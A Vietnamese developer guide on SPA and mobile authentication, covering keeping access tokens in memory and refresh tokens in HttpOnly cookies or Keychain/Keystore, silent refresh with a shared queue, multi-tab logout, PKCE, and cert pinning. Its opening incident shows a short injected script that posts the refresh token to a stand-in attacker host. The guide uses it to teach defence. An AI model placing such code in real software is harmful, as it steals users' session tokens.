


# SPA & Mobile Authentication

## Mục lục

- [1. Bối cảnh: một XSS đánh sập cả phiên](#1-bối-cảnh-một-xss-đánh-sập-cả-phiên)
- [2. Tổng quan: bản đồ quyết định phía client](#2-tổng-quan-bản-đồ-quyết-định-phía-client)
- [3. Thách thức: không có nơi an toàn tuyệt đối](#3-thách-thức-không-có-nơi-an-toàn-tuyệt-đối)
- [4. SPA: mẫu access-ở-memory + refresh-ở-cookie](#4-spa-mẫu-access-ở-memory--refresh-ở-cookie)
- [5. Silent refresh khi 401](#5-silent-refresh-khi-401)
  - [5.1 Hàng đợi chống refresh đua nhau](#51-hàng-đợi-chống-refresh-đua-nhau)
  - [5.2 Axios interceptor đầy đủ](#52-axios-interceptor-đầy-đủ)
  - [5.3 Fetch wrapper đầy đủ](#53-fetch-wrapper-đầy-đủ)
- [6. Quản lý phiên & đồng bộ đa tab](#6-quản-lý-phiên--đồng-bộ-đa-tab)
- [7. Mobile: lưu token trong Keychain/Keystore](#7-mobile-lưu-token-trong-keychainkeystore)
- [8. OAuth trên client: Authorization Code + PKCE](#8-oauth-trên-client-authorization-code--pkce)
- [9. Mobile: cert pinning & truyền an toàn](#9-mobile-cert-pinning--truyền-an-toàn)
- [10. Edge cases thực tế — những lỗi khó debug](#10-edge-cases-thực-tế--những-lỗi-khó-debug)
- [11. Anti-patterns & lỗi client thường gặp](#11-anti-patterns--lỗi-client-thường-gặp)
- [12. Câu hỏi thường gặp](#12-câu-hỏi-thường-gặp)
- [13. Checklist SPA & mobile auth](#13-checklist-spa--mobile-auth)
- [Tài liệu tham khảo](#tài-liệu-tham-khảo)

---

## 1. Bối cảnh: một XSS đánh sập cả phiên

Một SPA thương mại điện tử lưu cả access và refresh token vào `localStorage` "cho tiện, đỡ mất khi F5". Mọi thứ chạy tốt nhiều tháng. Rồi một ngày, đội marketing nhúng thêm một thẻ `<script>` của nhà cung cấp A/B testing bên thứ ba. Bản cập nhật của thư viện đó bị tấn công supply-chain, chèn một đoạn mã nhỏ:

```javascript
// đoạn mã độc được tiêm qua thư viện bên thứ ba
fetch('https://evil.example/collect', {
  method: 'POST',
  body: localStorage.getItem('refresh_token'),   // đọc thẳng từ localStorage
});
```

Chỉ một dòng. Vì `localStorage` cho **mọi** JS trên trang đọc, refresh token (sống 7 ngày) bay sang server kẻ tấn công. Chúng dùng refresh token tạo access token mới liên tục, truy cập tài khoản người dùng mà không cần mật khẩu — và vì refresh sống lâu, cửa sổ lạm dụng kéo dài cả tuần.

```diagram
Gốc rễ KHÔNG phải XSS (XSS sẽ luôn có khả năng xảy ra)
Gốc rễ là: refresh token (sống lâu) nằm nơi JS đọc được
  → một lỗ hổng JS bất kỳ = lộ toàn bộ phiên
Bài học: trên client không thể "diệt XSS hoàn toàn", chỉ có thể GIẢM THIỆT HẠI khi nó xảy ra.
```

> [!IMPORTANT]
> Nguyên tắc xuyên suốt: **refresh token (sống lâu) phải ngoài tầm JS** — cookie `HttpOnly` trên web, Keychain/Keystore trên mobile. **Access token (sống ngắn) ở memory** — mất khi reload nhưng khôi phục ngay bằng silent refresh. Tuyệt đối tránh `localStorage` cho bất kỳ token nào. Mục tiêu không phải "giấu token hoàn hảo" mà là *giảm thiệt hại* khi XSS xảy ra.

---

## 2. Tổng quan: bản đồ quyết định phía client

```diagram
╭──────────────────────────────────────────────────────────────────────────╮
│                  AUTH PHÍA CLIENT — BẢN ĐỒ QUYẾT ĐỊNH                     │
│                                                                          │
│   SPA (web)                              Mobile (native)                  │
│   ─────────                              ───────────────                  │
│   access  → memory (biến module)         access  → memory                 │
│   refresh → cookie HttpOnly (JS ✗)       refresh → Keychain/Keystore       │
│   reload → silent refresh khôi phục      app restart → đọc refresh từ store│
│   mối lo chính: XSS                       mối lo chính: thiết bị root/JB    │
│                                                                          │
│   Đăng nhập:  OAuth Authorization Code + PKCE (cả hai nền tảng)           │
│   Gọi API:    Authorization: Bearer <access>                              │
│   401:        silent refresh (có hàng đợi) → retry 1 lần                  │
│   Logout:     gọi server thu hồi refresh + xóa state client              │
╰──────────────────────────────────────────────────────────────────────────╯
```

---

## 3. Thách thức: không có nơi an toàn tuyệt đối

| Nơi lưu | XSS đọc được? | Bền qua reload/restart? | Kết luận |
|---------|----------------|--------------------------|----------|
| Biến JS (memory) | Chỉ khi đang chạy | ❌ | ✅ cho access |
| `localStorage` | ✅ (mọi script đọc) | ✅ | ❌ tránh |
| `sessionStorage` | ✅ | Chỉ trong tab | ❌ tránh |
| `IndexedDB` | ✅ (JS đọc được) | ✅ | ❌ tránh |
| Cookie `HttpOnly` | ❌ | ✅ | ✅ cho refresh (web) |
| Keychain/Keystore | Theo OS, app khác khó | ✅ | ✅ cho refresh (mobile) |

```diagram
VÌ SAO "memory" an toàn hơn "localStorage" dù XSS vẫn chạy được JS?
  - localStorage: XSS đọc 1 dòng là LẤY token, kể cả token cấp từ trước, và
    có thể quay lại lấy bất cứ lúc nào (token nằm sẵn đó).
  - memory: XSS chỉ lấy được access token ĐANG sống (ngắn hạn) tại thời điểm chạy;
    KHÔNG chạm refresh (ở cookie HttpOnly) → không tạo được phiên dài hạn.
  → cùng có XSS, nhưng thiệt hại khác hẳn: mất 1 access ngắn hạn vs mất cả phiên 7 ngày.
```

<Callout type="error" title="localStorage là cái bẫy phổ biến nhất">
Nhiều tutorial bảo "lưu JWT vào localStorage" cho tiện. Nhưng <code>localStorage</code> bị <b>mọi đoạn JS</b> trên trang đọc — gồm cả thư viện bên thứ ba bị nhiễm (như bối cảnh mục 1). Một XSS = lộ cả access lẫn refresh token. Refresh token sống lâu trong localStorage là thảm họa. Xem <a href="/security/secure-storage/">Secure Storage</a>.
</Callout>

---

## 4. SPA: mẫu access-ở-memory + refresh-ở-cookie



```javascript
// authStore.js — access token CHỈ ở memory (module-scope), không persist
let accessToken = null;
const listeners = new Set();                         // cho phép UI phản ứng khi access đổi

export const getAccess = () => accessToken;
export const setAccess = (t) => { accessToken = t; listeners.forEach((fn) => fn(t)); };
export const clearAccess = () => setAccess(null);
export const onAccessChange = (fn) => { listeners.add(fn); return () => listeners.delete(fn); };

// login: lấy access từ body; refresh do server set cookie HttpOnly
export async function login(credentials) {
  const res = await fetch('/auth/login', {
    method: 'POST',
    headers: { 'Content-Type': 'application/json' },
    body: JSON.stringify(credentials),
    credentials: 'include',          // nhận Set-Cookie refresh
  });
  if (!res.ok) throw new Error('login_failed');
  setAccess((await res.json()).access);
}
```

> [!NOTE]
> `access` để ở biến module-scope (không React state persist, không storage). Khi component cần gọi API, lấy qua `getAccess()`; nếu cần render theo trạng thái đăng nhập, đăng ký `onAccessChange`. Refresh token do server quản lý hoàn toàn qua cookie — frontend **không bao giờ** thấy giá trị refresh, chỉ cần `credentials:'include'` để cookie tự đi kèm khi gọi `/auth/refresh`. Vì sao mẫu này an toàn: xem [HTTP Transport & Storage](/implementation/http-transport-and-storage/).

---

## 5. Silent refresh khi 401

Khi access hết hạn (hoặc mất sau reload), API trả 401 → client tự gọi `/auth/refresh` lấy access mới rồi **thử lại** request gốc, hoàn toàn trong suốt với người dùng.

```diagram
request → 401 ?
   │ không → trả kết quả
   │ có → đã retry rồi? → có → bỏ cuộc → /login
                       → chưa → POST /auth/refresh (cookie refresh tự gửi)
                                  │ thành công → cập nhật access mới → THỬ LẠI request gốc (1 lần)
                                  │ thất bại  → xóa access → chuyển tới /login
```

### 5.1 Hàng đợi chống refresh đua nhau

Vấn đề: nếu 5 request cùng nhận 401 một lúc, không xử lý khéo sẽ gọi `/auth/refresh` **5 lần song song** — gây xoay refresh token lung tung và có thể kích hoạt reuse-detection (thu hồi cả nhà). Giải pháp: chỉ cho **một** lần refresh chạy, các request khác chờ kết quả.

```diagram
THỜI ĐIỂM access hết hạn, 5 request đang bay:
  req1 → 401 → khởi tạo refreshing (1 lần gọi /auth/refresh)
  req2..5 → 401 → THẤY refreshing đã có → cùng await Promise đó (KHÔNG gọi thêm)
  refresh xong → cả 5 lấy access mới → mỗi req retry chính nó
  → đúng 1 lần gọi /auth/refresh cho cả chùm → không xoay token đua nhau
```

```javascript
let refreshing = null;   // Promise refresh đang chạy (hoặc null)

async function refreshOnce() {
  if (!refreshing) {                          // chưa ai refresh → khởi động một lần
    refreshing = fetch('/auth/refresh', { method: 'POST', credentials: 'include' })
      .then(async (r) => {
        if (!r.ok) throw new Error('refresh_failed');
        const { access } = await r.json();
        setAccess(access);
        return access;
      })
      .finally(() => { refreshing = null; });  // dọn để lần sau refresh lại được
  }
  return refreshing;                           // mọi caller cùng chờ 1 Promise
}
```

> [!TIP]
> `refreshing` là một Promise dùng chung: request đầu tiên gặp 401 khởi tạo nó, các request 401 tiếp theo *cùng `await`* Promise đó thay vì tạo refresh mới. Nhờ vậy chỉ đúng một lần gọi `/auth/refresh` cho cả chùm — tránh xoay token đua nhau và false-positive reuse detection. Xem [Revocation & Logout](/lifecycle/revocation-and-logout/) về reuse detection.

### 5.2 Axios interceptor đầy đủ

```javascript
import axios from 'axios';
import { getAccess, setAccess, clearAccess } from './authStore';

const api = axios.create({ baseURL: '/api', withCredentials: true });

// Gắn access vào mỗi request
api.interceptors.request.use((config) => {
  const t = getAccess();
  if (t) config.headers.Authorization = `Bearer ${t}`;
  return config;
});

// Bắt 401 → silent refresh → retry đúng 1 lần
let refreshing = null;
api.interceptors.response.use(
  (res) => res,
  async (error) => {
    const original = error.config;
    if (error.response?.status === 401 && !original._retried) {
      original._retried = true;                 // chỉ retry 1 lần, tránh vòng lặp vô hạn
      try {
        if (!refreshing) {
          refreshing = axios.post('/auth/refresh', null, { withCredentials: true })
            .then((r) => { setAccess(r.data.access); return r.data.access; })
            .finally(() => { refreshing = null; });
        }
        const access = await refreshing;
        original.headers.Authorization = `Bearer ${access}`;
        return api(original);                     // phát lại request gốc
      } catch {
        clearAccess();
        window.location.assign('/login');         // refresh hỏng → đăng nhập lại
      }
    }
    return Promise.reject(error);
  },
);

export default api;
```

<Callout type="warn">
Luôn đánh dấu <code>_retried</code> để mỗi request chỉ thử refresh <b>một lần</b>. Nếu không, khi refresh trả về access vẫn bị 401 (vd token bị thu hồi), bạn rơi vào vòng lặp refresh → 401 → refresh vô tận, đốt tài nguyên và spam endpoint refresh.
</Callout>

### 5.3 Fetch wrapper đầy đủ

Nếu không dùng axios, đây là wrapper `fetch` tương đương — cùng logic queue + retry 1 lần:

```javascript
import { getAccess, setAccess, clearAccess } from './authStore';

let refreshing = null;
function refreshOnce() {
  if (!refreshing) {
    refreshing = fetch('/auth/refresh', { method: 'POST', credentials: 'include' })
      .then(async (r) => {
        if (!r.ok) throw new Error('refresh_failed');
        const { access } = await r.json();
        setAccess(access);
        return access;
      })
      .finally(() => { refreshing = null; });
  }
  return refreshing;
}

export async function apiFetch(url, opts = {}, _retried = false) {
  const access = getAccess();
  const res = await fetch(url, {
    ...opts,
    credentials: 'include',
    headers: { ...opts.headers, ...(access ? { Authorization: `Bearer ${access}` } : {}) },
  });
  if (res.status === 401 && !_retried) {
    try {
      await refreshOnce();
      return apiFetch(url, opts, true);          // retry đúng 1 lần
    } catch {
      clearAccess();
      window.location.assign('/login');
    }
  }
  return res;
}
```

---

## 6. Quản lý phiên & đồng bộ đa tab

```diagram
Khởi động app (mở tab / F5):
  access = null  →  thử POST /auth/refresh (cookie có thể còn)
     │ thành công → có access → vào app (đã đăng nhập)
     │ thất bại  → chưa/đã hết phiên → hiện màn login

Logout:
  POST /auth/logout (server xóa refresh + cookie)  →  clearAccess()  →  về /login
  → phát tín hiệu cho các tab khác cùng logout (BroadcastChannel)
```

```javascript
// Khôi phục phiên khi app khởi động
export async function bootstrapSession() {
  try {
    const r = await fetch('/auth/refresh', { method: 'POST', credentials: 'include' });
    if (r.ok) { setAccess((await r.json()).access); return true; }
  } catch { /* ignore */ }
  return false;       // chưa đăng nhập
}

export async function logout() {
  await fetch('/auth/logout', { method: 'POST', credentials: 'include' });  // server thu hồi refresh
  clearAccess();
  authChannel.postMessage('logout');             // báo các tab khác
  window.location.assign('/login');
}

// Đồng bộ đăng xuất giữa các tab
const authChannel = new BroadcastChannel('auth');
authChannel.onmessage = (e) => {
  if (e.data === 'logout') { clearAccess(); window.location.assign('/login'); }
};
```

> [!NOTE]
> Vì access ở memory, mỗi lần app khởi động bạn không có access — nhưng cookie refresh (`HttpOnly`, bền) vẫn còn nếu phiên chưa hết. Gọi `bootstrapSession()` một lần lúc khởi động để "đăng nhập im lặng". Logout phải gọi server để **thật sự thu hồi** refresh token, không chỉ xóa state phía client. Mỗi tab có biến `accessToken` riêng (memory không chia sẻ), nên dùng `BroadcastChannel` để đồng bộ logout — tránh tình huống một tab đã logout mà tab khác vẫn "đăng nhập".

<Callout type="info">
Nhiều tab cùng gặp 401 lúc access hết hạn có thể cùng gọi <code>/auth/refresh</code> và (do rotation) đua nhau. Hàng đợi <code>refreshing</code> chỉ chống đua <b>trong một tab</b>. Để chống đua <b>giữa các tab</b>, hoặc dùng <code>BroadcastChannel</code> để bầu một "tab chủ" lo refresh, hoặc thiết kế server cho phép một cửa sổ ân hạn (grace window) khi rotation. Xem <a href="/lifecycle/revocation-and-logout/">Revocation & Logout</a>.
</Callout>

---

## 7. Mobile: lưu token trong Keychain/Keystore

```diagram
iOS      → Keychain (mã hóa bởi OS, gắn thiết bị, tùy chọn Face/Touch ID)
Android  → Keystore + EncryptedSharedPreferences
RN       → expo-secure-store hoặc react-native-keychain (bọc 2 cái trên)
TRÁNH    → AsyncStorage / UserDefaults / SharedPreferences thường (plaintext)
```

```javascript
// React Native với expo-secure-store
import * as SecureStore from 'expo-secure-store';

export async function saveRefresh(token) {
  await SecureStore.setItemAsync('refresh_token', token, {
    keychainAccessible: SecureStore.WHEN_UNLOCKED,           // chỉ đọc khi máy đã mở khóa
    requireAuthentication: true,                              // (tùy) yêu cầu sinh trắc học
  });
}
export const getRefresh = () => SecureStore.getItemAsync('refresh_token');
export const clearRefresh = () => SecureStore.deleteItemAsync('refresh_token');

// access vẫn giữ ở memory như SPA
let accessToken = null;
export const setAccess = (t) => { accessToken = t; };
export const getAccess = () => accessToken;

// khi app khởi động: đọc refresh từ secure store để lấy access mới
export async function bootstrapMobileSession() {
  const refresh = await getRefresh();
  if (!refresh) return false;
  const res = await fetch('https://api.example.com/auth/refresh', {
    method: 'POST',
    headers: { 'Content-Type': 'application/json' },
    body: JSON.stringify({ refresh }),                        // mobile gửi refresh trong body
  });
  if (!res.ok) { await clearRefresh(); return false; }
  const { access, refresh: rotated } = await res.json();
  setAccess(access);
  if (rotated) await saveRefresh(rotated);                    // lưu refresh mới (rotation)
  return true;
}
```

<Callout type="warn">
Trên mobile, <b>đừng</b> lưu token vào <code>AsyncStorage</code> hay file thường — chúng là plaintext, app khác (hoặc thiết bị bị root/jailbreak) có thể đọc. Dùng Keychain/Keystore qua <code>expo-secure-store</code>/<code>react-native-keychain</code>. Vì mobile không có "cookie HttpOnly", refresh token <i>do code đọc được</i> — bù lại bằng kho mã hóa OS và (tùy mức nhạy cảm) yêu cầu sinh trắc học để mở khóa.
</Callout>

---

## 8. OAuth trên client: Authorization Code + PKCE

Khi SPA/mobile đăng nhập qua OAuth/OIDC, **bắt buộc dùng Authorization Code + PKCE** (không dùng Implicit flow đã lỗi thời). PKCE chống đánh cắp authorization code.



```javascript
// Tạo PKCE pair + state (Web Crypto)
function base64url(buf) {
  return btoa(String.fromCharCode(...new Uint8Array(buf)))
    .replace(/\+/g, '-').replace(/\//g, '_').replace(/=+$/, '');
}

async function createPkce() {
  const verifier = base64url(crypto.getRandomValues(new Uint8Array(32)));
  const digest = await crypto.subtle.digest('SHA-256', new TextEncoder().encode(verifier));
  return { verifier, challenge: base64url(digest) };       // gửi challenge đi, giữ verifier
}

// Bắt đầu login
async function startLogin() {
  const { verifier, challenge } = await createPkce();
  const state = base64url(crypto.getRandomValues(new Uint8Array(16)));
  sessionStorage.setItem('pkce_verifier', verifier);       // verifier tạm (không phải token)
  sessionStorage.setItem('oauth_state', state);
  const url = new URL('https://auth.example.com/authorize');
  url.search = new URLSearchParams({
    response_type: 'code', client_id: 'spa-client',
    redirect_uri: 'https://app.example.com/callback',
    scope: 'openid profile orders:read',
    code_challenge: challenge, code_challenge_method: 'S256', state,
  }).toString();
  window.location.assign(url.toString());
}

// Xử lý callback
async function handleCallback() {
  const params = new URLSearchParams(window.location.search);
  if (params.get('state') !== sessionStorage.getItem('oauth_state')) throw new Error('bad_state');
  const res = await fetch('https://auth.example.com/token', {
    method: 'POST',
    headers: { 'Content-Type': 'application/x-www-form-urlencoded' },
    body: new URLSearchParams({
      grant_type: 'authorization_code', code: params.get('code'),
      redirect_uri: 'https://app.example.com/callback', client_id: 'spa-client',
      code_verifier: sessionStorage.getItem('pkce_verifier'),
    }),
  });
  const { access_token } = await res.json();
  setAccess(access_token);                                  // refresh do server đặt cookie (web)
}
```

> [!TIP]
> Client công khai (SPA/mobile) không giữ được client secret, nên **PKCE** thay thế: client tự sinh `code_verifier` bí mật, gửi `code_challenge = SHA256(verifier)` lúc xin code, rồi chứng minh bằng `verifier` lúc đổi token. Kẻ chặn được authorization code vẫn không đổi được token vì thiếu `verifier`. Luôn kèm `state` để chống CSRF của chính luồng OAuth. Chi tiết: [OAuth2/OIDC Integration](/implementation/oauth2-oidc-integration/).

---

## 9. Mobile: cert pinning & truyền an toàn

| Biện pháp | Mục đích |
|-----------|----------|
| Chỉ HTTPS/TLS (không HTTP) | Chống nghe lén token khi truyền |
| Certificate/Public-key pinning | Chống man-in-the-middle với cert giả |
| Không log token vào crash report/analytics | Tránh lộ qua công cụ bên thứ ba |
| Xóa token khi logout/đăng xuất thiết bị | Giảm cửa sổ lộ |
| Phát hiện root/jailbreak (tùy mức nhạy cảm) | Cảnh báo môi trường không tin cậy |
| Xóa token khi app vào background lâu (tùy) | Giảm rủi ro khi máy bị mất |

> [!WARNING]
> Trên mobile, kẻ tấn công có thể cài cert giả để chặn lưu lượng (MITM). **Certificate pinning** ghim cert/khóa công khai của server vào app, từ chối kết nối nếu không khớp — chặn nghe lén token dù attacker kiểm soát mạng. Kết hợp với chỉ-HTTPS và HSTS phía server. Lưu ý vận hành: ghim *public key* (SPKI) thay vì cả cert để khi xoay cert không phải cập nhật app gấp, và luôn ghim *2 khóa* (hiện tại + dự phòng) để không "tự khóa mình ra ngoài" khi xoay.

---

## 10. Edge cases thực tế — những lỗi khó debug

### 10.1 "Đăng xuất sau mỗi F5"

Triệu chứng: reload trang là phải đăng nhập lại. Nguyên nhân: quên gọi `bootstrapSession()` lúc khởi động, hoặc cookie refresh không gửi (thiếu `credentials:'include'`, hoặc `Secure:true` trên `http://localhost` dev). Đây là *hành vi đúng* của access-ở-memory — chỉ cần khôi phục bằng silent refresh lúc khởi động.

### 10.2 Vòng lặp refresh vô tận

Triệu chứng: tab Network spam `/auth/refresh`. Nguyên nhân: quên cờ `_retried` → request retry nhận 401 lại refresh lại. Khắc phục: chỉ retry đúng 1 lần (mục 5.2/5.3), và khi refresh trả access vẫn 401 thì chuyển `/login`.

### 10.3 Nhiều tab kích hoạt reuse-detection

Triệu chứng: mở 3 tab, một lúc sau cả 3 bị đăng xuất. Nguyên nhân: rotation refresh + nhiều tab cùng refresh → server thấy refresh "cũ" được dùng lại → coi là rò → thu hồi cả nhà. Khắc phục: đồng bộ refresh giữa tab (BroadcastChannel) hoặc grace window phía server.

### 10.4 `credentials:'include'` nhưng cookie vẫn không gửi

Kiểm: (1) server có `Access-Control-Allow-Credentials: true` và `Allow-Origin` cụ thể (không `*`); (2) cookie set đúng `SameSite`/`Secure` cho môi trường; (3) frontend và API có cùng site không. Soi DevTools → Application → Cookies và tab Network. Xem [HTTP Transport & Storage](/implementation/http-transport-and-storage/) mục CORS.

### 10.5 Token "rò" qua React DevTools / Redux state

Nếu bạn để access token trong Redux/Context và persist nó (redux-persist → localStorage), bạn vô tình đưa token vào storage. Giữ access ở biến module-scope hoặc state *không persist*; đừng cấu hình persist whitelist gồm slice chứa token.

---

## 11. Anti-patterns & lỗi client thường gặp

| Lỗi | Hậu quả | Khắc phục |
|-----|---------|-----------|
| Lưu token trong `localStorage`/`IndexedDB` | XSS lấy token | Access→memory, refresh→cookie/Keychain |
| Persist Redux state chứa token | Token rớt vào localStorage | Không persist slice chứa token |
| Không có hàng đợi refresh | Nhiều refresh đua → reuse-detection thu hồi | `refreshing` Promise dùng chung |
| Không đánh dấu `_retried` | Vòng lặp refresh→401 vô tận | Chỉ retry 1 lần/request |
| Quên `credentials:'include'` | Cookie refresh không gửi | Bật `withCredentials`/`credentials:'include'` |
| Logout chỉ xóa state client | Refresh vẫn dùng được | Gọi server thu hồi refresh |
| Không đồng bộ logout đa tab | Tab khác vẫn "đăng nhập" | BroadcastChannel |
| Dùng OAuth Implicit flow | Token lộ trên URL fragment | Authorization Code + PKCE |
| Quên `state` trong OAuth | CSRF luồng đăng nhập | Sinh + kiểm `state` |
| Mobile lưu token plaintext | App khác/đọc khi root | Keychain/Keystore |
| Pin 1 cert duy nhất | Xoay cert là app chết | Pin SPKI + 2 khóa (hiện tại + dự phòng) |

---

## 12. Câu hỏi thường gặp

<Accordions>

<Accordion title="Tại sao không lưu access token vào localStorage cho đỡ phải silent refresh?">
Vì XSS đọc được localStorage. Silent refresh giải quyết "mất khi reload" mà không phải đánh đổi an toàn: lúc khởi động gọi /auth/refresh một lần là có access lại. Cái giá là một request nhỏ lúc load — rất đáng so với rủi ro lộ token.
</Accordion>

<Accordion title="SPA của tôi và API khác domain, refresh-cookie HttpOnly có dùng được không?">
Được, nhưng cookie phải `SameSite=None; Secure` để gửi cross-site, và bạn cần CORS `credentials:true` + origin allowlist cụ thể, đồng thời thêm chống CSRF (vì SameSite=None). Đơn giản hơn: đặt cả hai sau reverse proxy chung origin. Xem [HTTP Transport & Storage](/implementation/http-transport-and-storage/).
</Accordion>

<Accordion title="Mobile không có cookie HttpOnly thì refresh token có an toàn bằng web không?">
Khác mô hình đe dọa. Web lo XSS (JS đọc trộm) → cookie HttpOnly chặn JS. Mobile lo thiết bị bị root/JB → Keychain/Keystore mã hóa bởi OS chặn app khác. Cả hai đều đưa refresh "ra ngoài tầm với mặc định" của kẻ tấn công phổ biến nhất trên nền tảng đó.
</Accordion>

<Accordion title="Có nên dùng refresh token rotation trên client không?">
Nên — mỗi lần refresh, server cấp refresh mới và vô hiệu cái cũ; nếu cái cũ bị dùng lại (rò), server phát hiện và thu hồi. Nhưng rotation đòi hỏi client xử lý đua nhau (hàng đợi + đa tab) cẩn thận, nếu không sẽ tự kích hoạt reuse-detection. Xem [Revocation & Logout](/lifecycle/revocation-and-logout/).
</Accordion>

</Accordions>

---

## 13. Checklist SPA & mobile auth

```diagram
SPA (web):
□ access ở memory (biến module), KHÔNG localStorage/sessionStorage/IndexedDB
□ refresh ở cookie HttpOnly+Secure+SameSite (server quản lý)
□ KHÔNG persist Redux/Context slice chứa token
□ credentials:'include' / withCredentials khi gọi auth API
□ silent refresh khi 401 + hàng đợi chống refresh đua nhau
□ retry đúng 1 lần (_retried) tránh vòng lặp
□ bootstrapSession() lúc khởi động; logout gọi server thu hồi
□ đồng bộ logout đa tab (BroadcastChannel)

MOBILE:
□ refresh ở Keychain/Keystore (expo-secure-store), KHÔNG AsyncStorage
□ access ở memory; đọc refresh để khôi phục khi mở app
□ chỉ HTTPS + certificate pinning (SPKI + khóa dự phòng)
□ không log token vào crash report/analytics
□ cân nhắc sinh trắc học mở khóa token nhạy cảm

OAUTH:
□ Authorization Code + PKCE (không Implicit)
□ verifier giữ bí mật, chỉ gửi challenge khi xin code
□ sinh + kiểm state (chống CSRF luồng đăng nhập)

CHUNG:
□ XSS: CSP + sanitize/escape input (token nhạy cảm không nằm nơi JS đọc)
□ Token không bao giờ trên URL/query
□ Hạn chế script bên thứ ba; review supply-chain
```

<Callout type="success" title="Một câu để nhớ">
<b>Access ở memory, refresh ngoài tầm JS (cookie HttpOnly trên web / Keychain trên mobile), silent refresh có hàng đợi + retry 1 lần, OAuth dùng Authorization Code + PKCE + state.</b> Không có nơi an toàn tuyệt đối trên client — mục tiêu là giảm thiệt hại khi XSS xảy ra.
</Callout>

---

## Tài liệu tham khảo

- [HTTP Transport & Storage](/implementation/http-transport-and-storage/) — nơi lưu & cách truyền token
- [Secure Storage](/security/secure-storage/) — phân tích sâu localStorage vs cookie vs memory
- [OAuth2/OIDC Integration](/implementation/oauth2-oidc-integration/) — PKCE, authorization code flow
- [Access vs Refresh Token](/lifecycle/access-token-vs-refresh-token/) — vì sao tách access/refresh
- [Revocation & Logout](/lifecycle/revocation-and-logout/) — reuse detection, rotation khi refresh
- [Common Vulnerabilities](/security/common-vulnerabilities/) — XSS, CSRF phía client
- [Backend API Auth](/implementation/backend-api-auth/) — phía server verify token client gửi
- [Testing Auth Flow](/operations/testing-auth-flow/) — test luồng refresh/đăng nhập
